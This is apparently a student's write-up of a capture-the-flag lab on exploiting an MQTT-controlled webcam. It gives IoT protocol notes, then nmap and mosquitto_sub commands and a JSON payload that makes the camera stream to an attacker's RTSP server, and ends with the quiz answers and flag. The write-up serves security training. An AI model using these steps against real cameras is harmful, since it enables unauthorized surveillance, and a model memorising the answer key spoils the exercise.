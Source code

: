 # Day_21 [MQTT] Have yourself a merry little webcam

+ Deployable Website: No
+ Deployable Container: Yes

Description: After investigating the web camera implant through hardware and firmware reverse engineering, you are tasked with identifying and exploiting any known vulnerabilities in the web camera. Elf Mcskidy is confident you won't be able to compromise the web camera as it seems to be up-to-date, but we will investigate if off-the-shelf exploits are even needed to take back control of the workshop.

> IP: 10.10.185.233

## LEARNING OBJECTIVES

+ Explain the Internet of Things, why it is important, and if we should be concerned about their danger.
+ Understand the difference between an IoT-specific protocol and other network service protocols.
+ Understand what a publish/subscribe model is and how it interacts with IoT devices.
+ Analyze and exploit the behavior of a vulnerable IoT device.

## NOTES

1. What is the Internet of Things?
   1. The Internet of Things (IoT) defines a categorization of just that, “things”. Devices are interconnected and rely heavily on communication to achieve a device’s objectives. Examples of IoT include thermostats, web cameras, and smart fridges, to name only a few.
   2. While the formal definition of IoT may change depending on who is setting it, the term can best be used as a broad categorization of “a device that sends and receives data to communicate with other devices and systems.”
   3. First, IoT categorizes unique devices, e.g., smart fridges, that don't match other categories, such as mobile devices. IoT devices tend to be lightweight, which means that the device's functionality and features are limited to only essentials. Because of their lightweight nature, modern features may be left out or overlooked, one of the most concerning being security. While we live in a modern era of security, it may still be considered secondary, which is why it is not included in core functionality.
   4. Second, devices are interconnected and often involve no human interaction. Think of authentication in which a human uses a password for security; these devices must not only be designed to communicate data effectively but also negotiate a secure means of communication such that human interaction is not required, e.g., using a password.
   5. Third, devices are designed to all be interconnected, so if device a is using x protocol and device b is using y protocol, it presents a significant problem in compatibility. The same concept can be applied to security where devices are incompatible but could fall back to insecure communication.

2. Introduction to IoT Protocols
   1. An "IoT protocol" categorizes any protocol used by an IoT device for machine-to-machine, machine-to-gateway, or machine-to-cloud communication. As previously defined, an IoT device sends and receives data to communicate with other devices and systems; with this in mind, an IoT protocol's objective should be efficient, reliable, and secure data communication.
   2. We can break up IoT protocols into one of two types, an **IoT data protocol** or an **IoT network protocol**. These types may be deceiving in their name as both are used to communicate data. How they differentiate is how and where the communication occurs. At a glance, an IoT data protocol commonly relies on the TCP/IP (Transmission Control Protocol/Internet Protocol) model, and an IoT network protocol relies on wireless technology for communication. We will continue expanding the purpose of these protocol types below.
   3. Let's break down an IoT data protocol into concepts that may be more familiar to us. An IoT data protocol is akin to common network services you may use or interact with daily, such as HTTP, SMB, FTP, and others. In fact, HTTP can be used as the backbone for other IoT protocols or as an IoT data protocol itself.
   4. An IoT network or wireless protocol still maintains the same goals as data protocols, that is, data communication, but it achieves it differently. Rather than relying on traditional TCP protocols, these protocols use wireless technology such as Wi-Fi, Bluetooth, ZigBee, and Z-Wave to transfer data and communicate between entities.

## STEPS

1. Start machine
2. Run Nmap scan
   1. > nmap -sC -sV $IP -oN initial
3. Check nmap of port 1883
   1. > nmap -p 1883 -sV -sC 10.10.108.88 -oN mosquitto_scan
      1. RESPONSE: $SYS/broker/version: mosquitto version 1.6.9
4. Use mosquitto to subscribe to the device/init to enumerate the device and get deviceID
   1. > mosquitto_sub -h 10.10.185.233 -t device/init
   2. Response: `ZQPVSRFABTEMEEG0YDLR`
5. Craft Payload
   1. {"CMD_NAMW":"CMD_VALUE", "URL_NAME":"URL_VALUE"}
   2. {"cmd":"10", "url":"rtsp://10.10.108.88:8554/hello"}
6. Start docker
   1. > sudo docker run --rm -it --network=host aler9/rtsp-simple-server

## QUESTIONS

1. What port is Mosquitto running on?
   1. `1883`
2. Is the device/init topic enumerated by Nmap during a script scan of all ports? (y/n)
   1. `Y`
3. What Mosquitto version is the device using?
   1. `1.6.9`
4. What flag is obtained from viewing the RTSP stream?
   1. `THM{UR_CAMERA_IS_MINE}`
